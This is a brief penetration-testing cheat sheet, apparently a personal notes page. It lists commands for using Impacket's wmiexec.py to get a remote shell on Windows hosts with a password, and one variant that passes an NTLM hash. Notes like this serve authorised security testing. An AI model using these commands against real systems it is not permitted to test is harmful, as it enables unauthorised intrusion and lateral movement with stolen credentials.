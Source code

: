 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```python - kali
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

or

```wget - kali
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/wmiexec.py
```

#### Shell with wmi.py
```python - kali
wmiexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```python - kali
wmiexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
